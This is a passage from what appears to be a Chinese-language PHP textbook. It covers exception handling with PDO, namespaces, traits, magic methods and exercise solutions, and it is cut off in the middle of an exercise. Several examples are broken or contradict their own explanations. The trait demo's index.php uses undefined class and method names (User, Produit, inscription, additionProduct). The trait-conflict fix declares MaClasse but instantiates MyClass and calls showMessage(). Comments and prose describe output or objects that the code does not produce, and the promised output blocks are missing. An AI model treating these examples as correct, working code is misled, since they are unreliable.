    echo 'Connection failed.<br />';
    echo $e->getMessage(); // The error number and message are displayed.
}
```

这段代码尝试使用 PDO（PHP 数据对象）连接到 MySQL 数据库。以下是详细解释：

try 块中的第一行尝试创建 PDO 类的新实例以建立到数据库的连接。传递的参数如下：

'mysql:host=localhost;dbname=Users'：这指定了要连接的数据库类型（MySQL）、主机（localhost）和数据库名称（Users）。

'root'：这是数据库用户名。

密码为空，但在生产环境中应确保其安全。

如果连接成功，屏幕上将显示消息“连接成功！”。

如果在连接尝试期间引发 PDOException（例如，由于配置或连接问题），将执行 catch 块。在此 catch 块中，将显示消息“连接失败”，随后是从异常中检索到的特定错误消息，即通过对 $e 异常对象调用 getMessage() 方法获得的。

简而言之，这段代码尝试连接到 MySQL 数据库，如果成功，则显示成功消息。如果不成功，它会在连接过程中出现问题时捕获并显示错误详细信息。

此时，执行此代码将产生类似于以下结果的错误：


此错误消息表明连接数据库的尝试已失败。以下是详细解释：

“连接失败”。这是我们在 catch 块中定义的消息，用于指示连接尝试期间发生了错误。

“SQLSTATE[HY000] [1049] Unknown database 'Users'”：这是数据库返回的特定错误消息。它由三部分组成：

“SQLSTATE[HY000]”：这是一个标准 SQL 状态代码，指示错误类型。在此例中，“[HY000]”表示一般错误。

“[1049]”：这是一个特定的错误代码，用于标识错误类型。在此例中，代码 1049 表示“未知数据库”，指示连接中指定的数据库不存在或无法访问。

“Unknown database 'Users'”：这是对错误的额外描述，指定名为“Users”的数据库未知或无法访问。

简而言之，此错误消息表明连接中指定的数据库存在问题，更具体地说，“Users”数据库不存在或无法访问。

## 结论

异常处理是编程中必不可少的实践，能够高效且优雅地处理错误。本章帮助我们理解了异常在软件设计中的重要性，强调了可能发生的不同类型的错误，并介绍了处理这些错误的方法。

我们探讨了 PHP 中异常的语法和用法，强调了使用 try-catch 块来捕获和处理异常。我们还研究了自定义异常的创建和使用，为处理特定于我们应用程序的错误提供了一种灵活且模块化的方式。

最后，我们讨论了异常在实际场景中的应用，例如使用 PDOException 进行数据库错误处理，并提供具体示例来说明其用法。

通过掌握异常处理，开发人员可以提高应用程序的健壮性、可靠性和质量，确保适当的错误处理，并便于调试和维护代码的过程。

### 第 19 章

### 命名空间

在进行 Web 开发项目时，高效的文件和资源管理对于保持代码井井有条和避免冲突至关重要。想象一下你的计算机桌面，同一位置不能有两个同名文件。项目目录也是如此。如果你参与过大型项目，你就会知道，要保证文件、类、属性或方法名称的唯一性可能很困难，尤其是在团队协作时。

虽然在小型项目中，通过清晰了解应用程序可以避免命名冲突，但在涉及数百或数千个文件及数千行代码的大型项目中，这很快就会成为一项挑战。代码模块化变得至关重要，它允许每个团队成员在不冒互相干扰风险的情况下，在项目的不同部分进行工作。

命名空间正是为此而设。在 PHP 中使用命名空间，你可以逻辑地组织代码，避免名称冲突，并使你的应用程序更易于维护和扩展。在本章中，我们将详细探讨 PHP 中命名空间的概念、其实际用途，以及它们在现代 Web 应用程序开发中提供的优势。


## 问题

假设我们想要为一所私立学校开发一个 Web 应用程序。例如，我们会有一个用于教学管理的 "Students" 目录，以及一个用于行政管理的 "Customers" 目录。在每个目录中，我们计划创建一个 "Person" 类，以表示与学校各项功能相关的个人。


在此背景下，当我们在另一个 PHP 文件（例如 index.php）中使用 Person 类时，这种使用很可能会被重复多次。在这种情况下，很难区分实际使用的是哪个 Person 类。不仅如此，如果我们需要在同一个文件中同时使用这两个 Person 类，就需要显式地导入它们：

```
<?php
require_once "Classes/Customers/Person.php";
require_once "Classes/Students/Person.php";

$person1 = new Person();
?>
```


在这段代码中，我们导入了两次 Person.php 文件，一次来自 "Classes/Customers" 目录，一次来自 "Classes/Students" 目录。接下来，我们尝试实例化 Person 类的一个对象。然而，这会产生歧义，因为我们有来自两个不同命名空间的两个 Person 类。因此，很难确定哪个类将用于实例化 $person1 对象。这种歧义可能导致错误或意外行为。

为了避免同名类之间的这些潜在冲突，PHP 提供了一种解决方案，允许我们将类组织在不同的命名空间中。这一概念与 Java 包的概念相似（如果你了解 Java 开发的话）。

命名空间允许我们为每组类分配一个唯一的命名空间，从而将它们隔离，避免应用程序不同部分之间的类发生名称冲突。通过使用命名空间，我们可以逻辑地组织代码，并避免在使用同名类时产生歧义。

在实践中，如何定义命名空间？

要在上面的示例中使用命名空间，您可以为 Customers 和 Students 目录中的每个 Person 类定义命名空间，然后将它们导入到 index.php 文件中。具体做法如下：

在 Customers 目录中的 Person.php 文件：

```
<?php
namespace Customers;
class Person {
public function __construct($amount, $financialSituation){
$this->amount = $amount;
$this->financialSituation = $financialSituation;
}
public function getCustomerInfo(){
echo "Amount paid: $this->amount,
financial situation: $this->financialSituation";
}
}
?>
```

`namespace Customers;` 行声明 Person 类属于 Customers 命名空间。通过声明 `namespace Customers;`，该 PHP 文件中定义的所有类都属于 Customers 命名空间。因此，要在另一个文件中使用 Person 类，需要使用 `use` 指令导入该命名空间。

在 Students 目录中的 Person.php 文件：

```
<?php

namespace Students;

class Person {
public function __construct($name, $email){
$this->name = $name;
$this->email = $email;
}

public function getStudentInfo(){
echo "Name: $this->name,
Email: $this->email";
}
}
```

然后，在 index.php 文件（或任何您想要使用 Person 类的其他文件中），使用相应的命名空间导入 Person 类：

```
<?php

require_once "Classes/Customers/Person.php";
require_once "Classes/Students/Person.php";

use Customers\Person as CustomerPerson;
use Students\Person as StudentPerson;

$studentPerson = new StudentPerson("Amine", "amine@gmail.com");
$customerPerson = new CustomerPerson(197, "Situation in order!");

$studentPerson->getStudentInfo();
echo "<br>";
$customerPerson->getCustomerInfo();

?>
```

这段代码首先使用 require_once 语句包含包含客户和学生 Person 类定义的 PHP 文件。然后，它使用 `use` 指令导入命名空间，并使用 `as` 关键字为客户和学生的 Person 类关联别名。

更具体地说，以下几行：

```
use Customers\Person as CustomerPerson;
use Students\Person as StudentPerson;
```

这些行告诉 PHP 从 Customer 和 Student 命名空间导入 Person 类，并分别将它们重命名为 CustomerPerson 和 StudentPerson。

接下来，代码使用姓名 "Alice" 和电子邮件 "alice@gmail.com" 创建一个 CustomerPerson 实例，然后使用姓名 "Amine" 和电子邮件 "amine@gmail.com" 创建一个 StudentPerson 实例。最后，它在这些实例上调用 getCustomerInfo() 和 getStudentInfo() 方法以显示相应的信息。

运行这段代码后，您将得到类似以下的结果：


## 结论

PHP 中的命名空间用于将类、接口、函数和常量组织和分层到不同的命名空间中，以避免代码元素之间的命名冲突。以下是命名空间过程的摘要：

- 命名空间声明：使用 namespace 关键字声明命名空间，后跟命名空间名称。例如：namespace MyNamespace;。
- 在命名空间中定义类：一旦声明了命名空间，PHP 文件中定义的所有类、接口、函数和常量都会自动与该命名空间关联，除非它们显式声明在另一个命名空间中。
- 在文件中使用类：要使用在命名空间中定义的类，可以使用 use 导入命名空间，并在必要时为类使用别名。例如：use MyNamespace\MyClass as AliasClass;。

总之，命名空间允许对代码进行逻辑组织并防止命名冲突，从而使 PHP 应用程序的开发和维护更加容易。

### 第 20 章

### 特质

PHP 特质代表面向对象编程范式中的一项重大创新。面对缺乏多重继承的问题，PHP 开发者长期以来一直在寻找优雅的解决方案，以便在不影响代码结构的情况下将通用功能融入他们的类中。特质应运而生，成为应对这一挑战的答案，为多重继承提供了一种强大的替代方案。

在本章中，我们将深入探讨 PHP 中的特质、其工作原理、实用性，以及与其他共享功能方法相比的优势。我们将发现特质如何实现更高的模块化、更好的代码复用，并使 PHP 项目中的类组织更加清晰。

通过本章，您将深入理解 PHP 特质，并学会如何有效地使用它们来改进 PHP 应用程序的结构、灵活性和可维护性。

### 问题

在 PHP 中，一个类不能同时直接继承自多个其他类。与某些支持多重继承的编程语言（如 C++、Python 或 Perl）不同，PHP 不支持。这意味着 PHP 不支持多重类继承。

然而，PHP 通过使用所谓的“特质”提供了多重继承的替代方案。特质提供了一种实用且灵活的解决方案，用于将额外功能融入类中，从而绕过与多重继承相关的潜在问题。

特质是一种 PHP 特性，可实现代码复用。它们允许将通用功能归组在一起，而无需采用继承，从而便于在这些功能之间在多个类中灵活共享。

需要注意的是，PHP 中的特质机制与 C++、Python 或 Perl 等其他编程语言中存在的多重继承机制不同。

对比继承和特质，我们可以看到，与继承不同（继承中，类会继承父类的所有属性和方法），特质使您能够选择并专门将所需功能融入类中。因此，特质提供了更高的模块化和更好的代码组织。

### 定义和使用特质

PHP 特质提供了一种在不使用多重继承的情况下在多个类中复用代码的优雅方式。特质是可以融入类中的方法和属性的集合。使用 **特质** 关键字定义，它们提供了包含具体方法和抽象方法以及属性的可能性。特质的主要优势在于其能够将通用功能组合在

一处，从而简化代码维护并避免重复。

为了说明这一点，让我们以学校管理应用程序为例。在这种情况下，应用程序的不同部分，例如学生区、教师区、家长区等，将需要类似的功能，例如登录、注销和查询方法。在每个需要它们的地方重复这些代码块既乏味又低效。

这时就用到了特性。通过使用它们，我们可以将这些共同功能组合在一处，使其更易于维护并避免代码重复。因此，与其为应用程序的每个区域多次编写相同的代码，不如在必要时直接使用相应的特性。

现在我们了解了特性的重要性和用途，让我们来看看如何在 PHP 应用程序中创建和使用它们。

## 语法

要声明一个特性，使用 trait 关键字，后跟特性名称及其花括号内的内容。要在类中使用一个特性，使用 use 关键字后跟特性名称。

```
trait TraitName {
  // Methods and properties of trait
}

class MyClass {
  use TraitName;
  // Other methods and properties of the class
}
```

假设你正在使用面向对象 PHP 开发一个电子商务应用程序，你肯定需要创建 User 和 Product 类。最初，你希望向应用程序中的各个类添加日志功能，即在应用程序执行过程中记录重要信息或事件。然后，例如，你希望添加验证功能，检查程序中提供的数据是否符合某些预定义的规则或条件。

## 日志特性 (Logging.php)

这段 PHP 代码定义了一个名为"Logging"的特性，提供日志功能。详细解释如下：

**日志特性 { ... }** : 这声明了一个名为"Logging"的特性。特性是可重用的代码块，可以纳入类中以为其提供额外功能。

**public function logMessage($message) { ... }** : 这是在"Logging"特性中定义的一个方法。"logMessage"方法接受一个 $message 参数，即要记录的消息。该方法是 public 的，这意味着它可以在使用该特性的代码中的任何位置调用。

然后可以在其他类中使用此特性来轻松添加此日志功能。

## Users 类 (Users.php)

```php
<?php
require_once 'Logging.php';

class Users {
    use Logging;

    public function signUp($name) {
        // User registration log
        $this->logMessage("User $name has registered.");
        // Other registration operations
        echo "Registration of user $name completed.<br>";
    }
}
?>
```

这段 PHP 代码首先使用 require_once 函数包含"Logging.php"文件。然后它定义了一个名为"Users"的类。详细解释如下：

**require_once 'Logging.php';** : 这一行包含"Logging.php"文件，该文件包含"Logging"特性的定义。包含此文件允许"Users"类使用"Logging"特性来添加日志功能。

**use Logging** : 这一行在"Users"类中使用"Logging"特性。这意味着在"Logging"特性中定义的所有方法都将可用于"Users"类的实例。

**public function signUp($name) { ... }** : 这一行定义了一个特定于"Users"类的名为"signUp"的公共方法。该方法接受一个 $name 参数，表示要注册的用户的名称。

## Product 类 (Product.php)

```php
<?php
require_once 'Logging.php';

class Product {
use Logging;

public function addProduct($name, $quantity) {
// Log product addition
$this->logMessage ("Addition product $name ($quantity units).");
// Other product addition operations
echo "Product $name added with $quantity units.<br>";
}
}
?>
```

这段 PHP 代码首先使用 require_once 函数包含"Logging.php"文件，从而使"Logging"特性可以在"Product"类中使用。以下是关键代码的解释：

require_once 'Logging.php'; : 这一行包含"Logging.php"文件，该文件包含"Logging"特性的定义。这允许"Product"类使用此特性中定义的功能。

use Logging; : 这一行在"Product"类中使用"Logging"特性。这意味着在"Logging"特性中定义的所有方法都将可用于"Product"类的实例。

public function addProduct($name, $quantity) { ... } : 这一行定义了一个特定于"Product"类的名为"addProduct"的公共方法。

## 主脚本 (index.php)

```php
<?php
require_once 'User.php';
require_once 'Product.php';

// Using classes with logging functionality

$user = new User();
$user->inscription("Amine Barak");

$produit = new Produit();
$product->additionProduct("Book", 10);
?>
```

这段代码说明了从 Logging 特性继承日志功能的"User"和"Product"类的实际用法。它创建表示用户和产品的对象，然后使用这些对象的方法来执行特定操作并记录相应的日志。

执行 index.php 文件时，将产生以下结果：


此结果显示一条消息，表明用户"Amine Barak"已注册，以及注册的日期和时间。这是因为调用了"User"类的"registration"方法，该方法使用日志功能来记录此事件。

随后，显示一条消息，表明产品"Book"已添加，数量为 10 单位，以及添加的日期和时间。这是因为调用了"Product"类的"addProduct"方法，该方法也使用日志功能来记录此事件。

总之，执行 index.php 文件将显示所执行操作（用户注册和产品添加）的消息，以及这些操作的详细信息，例如执行的日期和时间，这要归功于在"User"和"Product"类中实现的日志功能。

## 方法和/或属性名称冲突

由于特性设计为可重用且可以独立纳入不同的类，因此两个不同的特性可能具有同名的方法或属性。同样，一个特性可能与使用它的类同名。这些情况可能导致程序执行期间出现名称冲突和错误。

### 示例：

### Trait1.php

```php
<?php
trait Trait1 {
public function displayMessage() {
echo "Message from Trait1 <br>";
}
}
```

### Trait2.php

```php
<?php
trait Trait2 {
public function displayMessage() {
echo "Message from Trait2 <br>";
}
}
```

这两个代码片段各自定义了一个包含名为"displayMessage()"的方法的特性。现在让我们想象创建一个使用这两个特性的类：

### MyClass.php

```php
<?php
require_once 'Trait1.php';
require_once 'Trait2.php';

class MyClass {
    use Trait1, Trait2;
}

$myObject1 = new MyClass();
$myObject1->displayMessage();
```

在这段 PHP 代码中，"Trait1.php"和"Trait2.php"文件使用 require_once 函数包含，从而访问"Trait1"和"Trait2"特性的定义。接下来，定义了一个名为"MyClass"的类，它使用 use 指令同时使用"Trait1"和"Trait2"两个特性。

接下来，使用 new 关键字实例化"MyClass"类的一个名为"$myObject1"的对象。最后，在此对象上调用"displayMessage()"方法。

然而，由于所使用的两个特性具有同名的方法"displayMessage()"，这可能导致歧义。在这种情况下，PHP 通常会生成一个指示名称冲突的致命错误。就当前代码而言，如果由于两个特性之间的名称冲突而未正确解决"displayMessage()"方法，将会发生错误。


为避免这种情况，需要在 MyClass 类中使用特性时，通过别名明确解决名称冲突：

```php
<?php
require_once 'Trait1.php';
require_once 'Trait2.php';

class MaClasse {
```


use Trait1, Trait2 {
    Trait1::displayMessage insteadof Trait2;
    Trait2::displayMessage as displayMessage2;
}
}

$myObject1 = new MyClass();
$myObject1->showMessage();
echo "<br>";
$myObject1->showMessage2();

在这段更正后的代码中，在声明 use 时，使用别名来解决两个特性之间 "displayMessage()" 方法的名称冲突。使用关键字 **insteadof** 明确优先使用 "Trait1" 的 "displayMessage()" 方法，而非 "Trait2" 的方法。

对于 Trait2 的 "displayMessage()" 方法，我们选择使用 "as" 关键字创建别名。因此，要调用此方法，需要使用别名中指定的名称，在此例中为 "displayMessage2()"。

这段代码确保特性方法之间的命名空间冲突得到适当解决，从而保证无错误执行。来自 "Trait1" 的 "displayMessage()" 方法用于显示 Trait1 特定的消息，而来自 "Trait2" 的 "displayMessage2()" 方法也用于显示 trait2 特定的消息，这要归功于在引入特性时使用的别名。

执行此代码将产生以下结果：

## 来自 Trait1 的消息

## 来自 Trait2 的消息

此结果清楚地表明，特性 Trait1 和 Trait2 的两个 "displayMessage()" 方法均已执行，未出现任何冲突错误。

订单跟踪的实际示例

假设你正在开发一个电子商务应用程序，并希望将订单跟踪功能集成到你的产品类中。

让我们创建一个名为 "OrderTracking" 的特性，例如，它为产品提供订单跟踪功能。

OrderTracking.php：

```php
<?php
```

```php
trait OrderTracking {
    private $trackingCode;

    public function setTrackingCode($trackingCode) {
        $this->trackingCode = $trackingCode;
    }

    public function getTrackingCode() {
        return $this->trackingCode;
    }

    public function trackOrder() {
        // Code to perform order tracking
        echo "Tracking number of the order: " . $this->trackingCode;
    }
}
```

以下是这段代码的详细解释：

trait OrderTracking { ... } ：这一行声明了 "OrderTracking" 特性，其中包含用于管理订单跟踪的方法。

private $trackingCode; ：这声明了一个名为 "$trackingCode" 的私有属性，用于存储订单跟踪编号。

public function setTrackingCode($trackingCode) { ... } ：此方法通过向 "$trackingCode" 属性赋值来设置订单跟踪编号。

public function getTrackingCode() { ... } ：此方法通过返回 "$trackingCode" 属性的值来获取订单跟踪编号。

public function trackOrder() { ... } ：此方法通过显示存储在 "$trackingCode" 属性中的订单跟踪编号来跟踪订单。

echo "Order tracking number: " . $this->trackingCode; ：这使用 "$trackingCode" 属性的值显示订单跟踪编号。

总结来说，"OrderTracking" 特性提供了定义、获取和跟踪订单跟踪编号的方法。可以将其纳入产品类中，为这些产品添加订单跟踪功能。

现在让我们创建 Product 类：

```php
<?php
require_once 'OrderTracking.php';
class Product {
use OrderTracking;
private $name;
private $price;

public function __construct($name, $price) {
    $this->name = $name;
    $this->price = $price;
}

// Other methods specific to the "Product" class
}

// Instantiation of the Product class

$product1 = new Product("T-shirt", 19.99);
$product1->setTrackingCode("ABC123");
$product1->trackOrder();

?>
```

这段 PHP 代码包含 "OrderTracking.php" 文件，该文件中定义了 "OrderTracking" 特性。接着，它定义了一个使用 use 指令引用该 "OrderTracking" 特性的 "Product" 类。

"Product" 类还拥有私有 "$name" 和 "$price" 属性，以及一个 "__construct()" 构造方法，它接受产品名称和价格作为参数并对其进行初始化。

接下来，使用参数 "T-shirt" 和 "19.99" 创建了 "Product" 类的一个实例。使用 "OrderTracking" 特性的 "setTrackingCode()" 方法为该产品设置了订单跟踪编号。最后，调用 "OrderTracking" 特性的 "trackOrder()" 方法来显示该产品的订单跟踪编号。

总结来说，这段代码说明了 "Product" 类如何使用 "OrderTracking" 特性为其实例添加订单跟踪功能。

使用此功能可以轻松地将订单跟踪功能集成到应用程序的不同类中，避免每次实现时跟踪代码的冗余。

执行此代码时，将产生以下结果：


这个实际示例突出了特性在为类添加特定功能方面的实用性，从而在具体的电子商务场景中增强了代码的模块性和可重用性。

## 结论

PHP 特性是改进面向对象应用程序中代码可重用性、模块性和可维护性的强大工具。通过在无需多重继承的情况下将常见功能包含在多个类中，特性为在不通过继承层次结构相连的类之间共享代码提供了一种灵活且优雅的替代方案。

使用特性，开发者可以将相似的功能集中在一个地方，避免代码重复并简化共享功能的管理。此外，特性允许更清晰地组织代码，促进关注点分离，并有助于理解程序结构。

简而言之，在 PHP 中明智地使用特性可以大大有助于提升应用程序的质量、健壮性和灵活性，同时便利代码的开发和维护过程。

### 第 21 章

## 魔术方法

PHP 中的魔术方法提供了一种强大的方式，用于扩展对象超出类中显式定义的方法之外的行为。它们能够自动捕获和处理某些与对象的交互，在 PHP 应用程序的设计和管理中提供了非凡的灵活性。

在本章中，我们将详细探讨 PHP 中可用的魔术方法及其实际用途。我们将发现这些方法如何用于在各种上下文中自定义对象的行为，从而提高 PHP 代码的模块性、可重用性和可维护性。

魔术方法使开发者能够为实例化对象、访问未定义属性、调用不可访问方法、序列化对象等操作定义自定义行为。它们在管理与对象的交互方面提供了非凡的灵活性，有助于开发健壮且灵活的 PHP 应用程序。

通过深入理解魔术方法，开发者将能够优雅且高效地扩展其 PHP 应用程序的功能，同时避免常见陷阱并遵循开发最佳实践。

## 定义魔术方法

PHP 魔术方法是类中预定义的特殊方法，PHP 引擎会在响应该类中对象的某些交互时自动调用它们。它们通常以两个下划线 (__) 开头，并提供特殊功能，以便在特定情况下控制对象的行为。魔术方法使开发者能够自定义对象行为，包括对象实例化、访问不可访问属性、调用不存在的方法、序列化和反序列化等操作。

## 主要魔术方法

PHP 提供了一系列所谓的魔术方法，在本节中，我们将探讨其中一些最常用的方法。

- a. __construct()
__construct() 方法在实例化对象时自动调用。它被称为“构造函数”。它用于在对象使用之前初始化对象属性或执行其他必要操作。

- b. __get()
__get() 方法用于拦截读取不可访问对象属性的尝试。它可以用于为此操作实现自定义行为。

以下是使用 __get 的示例：

```php
<?php


```php
class Users {
private $name = "John";
}
$user = new Users();
echo $user->name; // Error: property is private
?>
```

在这段代码中，定义了一个具有私有属性 $name 的 User 类。当我们在实例化类后尝试访问该属性时，会生成一个错误，因为该属性被声明为私有，因此无法从类外部访问。如果我们在 User 类中重新定义 __get 魔术方法，错误将消失。

```php
<?php
class Users {
private $name = "John";
public function __get($propertyName) {
if ($propertyName == 'name') {
return $this->name;
}
}
}

$user = new Users();

// Using the magic method __get() to access the private property
echo $user->name; // Displays "John"
?>
```

在这段代码中，__get() 方法是一种 PHP 魔术方法，当尝试访问不可访问的对象属性时，它会被自动调用。

在这个示例中，为 User 类定义了 __get() 方法。当尝试访问类的不可访问属性时，将使用属性名作为参数调用此方法。

在方法体中，我们检查作为参数传递的属性名是否对应 'name'。如果是，则将对象的私有属性 $name 的值返回给调用者。

此魔术方法提供对私有属性的受控访问，仅在请求的属性名与对象的私有属性名匹配时才返回该属性。执行此代码将产生以下显示：


### c. __set()

现在假设我们想要从 "User" 类外部修改 "name" 属性的值。同样，该属性是私有的，因此如果直接尝试这样做，会报错。我们可以使用魔术 __set() 方法以受控的方式允许修改此属性。示例如下：

```php
<?php
class Users {
private $name;

public function __set($propertyName, $value) {
if ($propertyName == 'name') {
$this->name = $value;
}
}
}

$user = new Users();

// Use the __set() magic method to modify the private property
$user->name = "Lina"; // The "name" property is now set to "Lina".
?>
```

在这个示例中，User 类定义了一个私有属性 $name。__set() 魔术方法用于拦截对不可访问对象属性赋值的尝试。

当我们尝试为 $user 对象的 "name" 属性赋值时，__set() 方法会自动调用。它接收两个参数：要修改的属性名和要分配给它的值。

在 __set() 方法体中，我们检查传递的属性名是否对应 "name"。如果是，则提供的值被分配给对象的 $name 属性。

此魔术方法允许以受控方式修改 User 类的私有属性，通过拦截和处理针对该属性赋值的尝试来实现。

### d. __call() and __callStatic()

当我们尝试调用对象中不存在或不可访问的方法时，会调用魔术 __call() 方法。它接收两个参数：尝试调用的方法名称以及任何相关参数，后者会被转换为数组。

至于魔术 __callStatic() 方法，当我们尝试在静态上下文中使用不存在或不可访问的方法时，它会被触发。此方法接受与 __call() 相同的参数。

### __call() 方法示例：

```php
<?php
class Example {
    public function __call($lastNameMethod, $arguments) {
        echo "The method '$lastNameMethod' does not exist or is inaccessible.";
        echo "The arguments passed are: " . implode(', ', $arguments);
    }
}

$object1 = new Example();
$object1->methodNotExist("argument1", "argument2");
?>
```

在这个示例中，我们有一个带有魔术 __call() 方法的 "Example" 类。当我们尝试在对象 $object1 上调用 methodNotExist() 方法时，该方法在类中不存在。因此，__call() 方法会自动调用。它显示一条消息，指示该方法不存在，以及传递给该方法的参数。

执行此代码将产生以下显示：


此结果清楚地表明，由于后者不存在，因此执行的是魔术 __call 方法而不是不存在的方法。

### __callStatic() 方法示例：

```php
<?php
class Example {
public static function __callStatic($lastNameMethod, $arguments) {
    echo "The static method '$lastNameMethod' does not exist or is inaccessible.";
    echo "The arguments passed are: " . implode(',', $arguments);
}
}
Example::staticMethodNotExist("argument1", "argument2");
?>
```

在这个示例中，我们有一个带有 __callStatic() 魔术方法的 Example 类。当我们尝试在 "Example" 类上调用 staticMethodNotExist() 静态方法时，该方法在类中不存在。

因此，__callStatic() 方法会自动调用。它显示一条消息，指示该静态方法不存在，以及传递给该方法的参数。


### e. __toString()

当对象在需要字符串的上下文中使用时（例如将其传递给 echo 函数），__toString() 方法会自动调用。它定义了对象的字符串表示。

```php
<?php
class Example {
private $name;

public function __construct($name) {
$this->name = $name;
}

public function __toString() {
    return "This object is called " . $this->name;
}

}

$object1 = new Example("NameObject1");
echo $object1; // Display : This object is called Example
?>
```

在这个示例中，Example 类定义了一个魔术 __toString() 方法。当我们尝试使用 echo 或字符串连接显示对象 $object1 时，__toString() 方法会自动调用。此方法返回一个以有意义方式表示对象的字符串。


### f. __destruct()

__destruct() 方法在对象销毁前自动调用。它用于执行清理操作或释放与对象关联的资源。

```php
<?php
class Example {
    public function __destruct() {
        echo "The object has been destroyed.";
    }
}

$object1 = new Example();
unset($object1); // Explicit object destruction. Displays: The object has been destroyed.
?>
```

在这个示例中，Example 类定义了一个魔术 __destruct() 方法。当对象被销毁时（无论是使用 unset() 函数显式销毁，还是在脚本结束时隐式销毁），都会自动调用此方法。在此示例中，当我们使用 unset($object1) 销毁对象 $object1 时，__destruct() 方法会被调用并显示一条消息，指示对象已被销毁。

对象已被销毁。

## 结论

PHP 的魔术方法为自定义对象和类的行为提供了强大的灵活性。它们在各种对象交互过程中实现自动干预，从而使代码管理和扩展更加容易。

在本章中，我们探讨了一些最常用的魔术方法，例如 __get()、__set()、__call()、__callStatic()、__toString() 和 __destruct()。这些方法为管理属性访问、动态调用方法、将对象显示为字符串以及在对象销毁时执行操作提供了有用功能。

值得注意的是，PHP 中还有其他魔术方法，例如 __isset()、__unset()、__invoke()、__clone() 等，它们提供了额外功能以满足特定开发需求。

通过明智地利用这些魔术方法，PHP 开发人员可以使代码更加灵活、更加健壮且更易于维护，同时在应用程序设计中获得更强的表达能力。


## 练习答案

### 练习 1

编写一个 PHP 脚本，定义一个包含你姓名的 name 变量和一个包含你年龄的 age 变量。接着，脚本应显示一条消息，内容为："Hello [your name], you're [your age] years old!"。

### 参考答案

```php
<?php
$name = "John"; // replace with your name
$age = 30; // replace with your age
echo "Hello $name, you are $age years old!";
?>
```

### 练习 2

编写一个 PHP 脚本，将一个人的姓、名和年龄存储在变量中，并使用连接运算符以句子形式显示这些信息。

### 参考答案

```php
<?php
$lastname = "Strock";
$firstname = "John";
$age = 30;

echo "Hello, my name is ".$firstname." ".$lastname." and I'm ".$age." years old.";
?>
```

### 练习 3

编写一个 PHP 程序，将产品价格存储在 $price 变量中，将数量存储在 $quantity 变量中，并通过将价格乘以数量来计算并显示订单的总金额。

### 参考答案

```php
<?php
$price = 39; // unit price
$quantity = 7; // quantity ordered
$total = $price * $quantity; // calculate total amount
echo "The total amount of the order is : $total euros";
?>
```

### 练习 4

编写一个脚本，检查变量中存储的数字是正数、负数还是零。

### 参考答案

```php
<?php
$number = 34;
if ($number > 0) {
  echo "The number is positive.";
} elseif ($number < 0) {
  echo "The number is negative.";
} else {
  echo "The number is zero";
}
?>
```

### 练习 5

编写一个程序，使用条件语句来检查学生在 100 分制下的技能发展情况。
- 如果能力等级达到 80% 或以上，学生将分在第一组。
- 如果能力等级在 50% 到 80% 之间，学生将分在第二组。
- 如果能力等级在 30% 到 50% 之间，学生将分在第三组。
- 如果能力等级低于 30%，学生将不及格。

### 参考答案

```php
<?php

$degreeSkills = 60;

if ($degreeSkills >= 80) {
    $group = "Group 1";
} elseif ($degreeSkills >= 50) {
    $group = "Group 2";
} elseif ($degreeSkills >= 30) {
    $group = "Group 3";
} else {
    $group = "Failure";
}

echo "Student assignment group: $group";
```

### 练习 6

编写一个条件脚本，测试一个数字是否同时是 3 和 5 的倍数。

### 参考答案

```php
<?php
$x = 1325775;
if ($x % 3 == 0 AND $x % 5 == 0) {
 echo $x . " is a multiple of 3 and 5 <br />";
} else {
 echo $x . " is not a multiple of 3 or 5 <br>";
}
?>
```

### 练习 7

编写一个程序，使用 switch 语句根据数字显示星期几（例如星期一）。
- 第 1 天视为星期一
- 如果数字不在 1 到 7 之间，默认显示“无效数字”。

### 参考答案

```php
<?php $day = "3";

switch ($day) {
case "1":
echo "It's Monday!";
break;
case "2":
echo "It's Tuesday!";
break;
case "3":
echo "It's Wednesday!";
break;
case "4":
echo "It's Thursday!";
break;
case "5":
echo "It's Friday!";
break;
case "6":
echo "It's Saturday!";
break;
case "7":
echo "It's Sunday! ";
break;
default:
echo "Invalid number!";
}
```

### 练习 8

编写一个程序，使用 while 循环显示 10 到 50 的整数。

### 参考答案

```php
<?php
$nb = 10;
while ($nb <= 50) {
	echo $nb;
	echo "<br>";

	$nb++;
}
```

### 练习 9

使用 for 循环，编写一个程序来计算 1 到 20 所有整数的乘积（1×2×3×4×5×……×19×20）。然后显示结果。

### 参考答案

```php
<?php

$product = 1;

for ($x = 1; $x <= 20; $x++) {
	$product = $product * $x;
}

echo "The product of all numbers from 1 to 20 is $product";
```

### 练习 10

使用 for 循环，编写 7 的乘法表（针对 1 到 100 的所有数字）。该表应以无序列表的形式呈现。

### 参考答案

```php
<?php
echo '<ul>';
for ($i = 1; $i <= 10; $i++)
echo '<li>' . $i . ' x 7 = ' . ($i * 7) . '</li>';
echo '</ul>';
```

### 练习 11

编写一个程序来计算以下求和：


### 参考答案

```php
<?php
$x = 3;
$n = 20;
$sum = 0;

for ($i = 0; $i <= $n; $i++) {
    $term = $x ** $i;
    $sum = $sum + $term;
}

echo $sum;
?>
```

### 练习 12

编写一个函数，测试一个数字是否是 3 的倍数，并根据测试结果显示一条消息。

### 参考答案

```php
<?php
function multiples_of_three($x) {
    if ($x % 3 == 0) {
        echo "The number $x is a multiple of 3";
    } else {
        echo "The number $x is not a multiple of 3";
    }
}

multiples_of_three(3672);
echo "<br>";
multiples_of_three(10);
?>
```

### 练习 13

编写一个 PHP 函数，接收三个数字作为输入，并返回其中最大的一个。

### 参考答案

```php
<?php
function greaterNumbers($number1, $number2, $number3) {
    $bigNumber = $number1;

    if ($number2 > $bigNumber) {
        $bigNumber = $number2;
    }

    if ($number3 > $bigNumber) {
        $bigNumber = $number3;
    }

    return $bigNumber;
}

// Example of use
echo greaterNumbers(2, 7, -9);
```

### 练习 14

编写一个函数，显示找到给定两位整数所需的随机数。

### 参考答案：使用 while 循环

```php
<?php
function find_number($number) {
    $Number_of_prints = 0;
    $Random_number = -1;
    while ($Random_number != $number) {
    $Random_number = random_int(0, 100);
    $Number_of_prints++;
    echo $Random_number . "<br>";
    }
    echo "The number " . $number . " is found after " . $Number_of_prints . "trials";
}
// Call focus
find_number(43);
```

### 练习 15

编写一个 PHP 脚本，将一系列姓名存储在数组中，然后以项目符号列表形式显示这些姓名。

### 参考答案

```php
<?php
$names = array("Alice", "Bob", "Mohammed", "Charlie", "David", "Sara", "Eve");

echo "<ul>";

foreach ($names as $name) {
    echo "<li>" . $name . "</li>";
}

echo "</ul>";
```

### 练习 16

编写一个 PHP 脚本，将三种颜色的名称存储在数组中，并按逆序显示它们。

### 参考答案

```php
<?php
$colors = array("red", "green", "blue");
$reverseColors = array_reverse($colors);

foreach ($reverseColors as $color) {
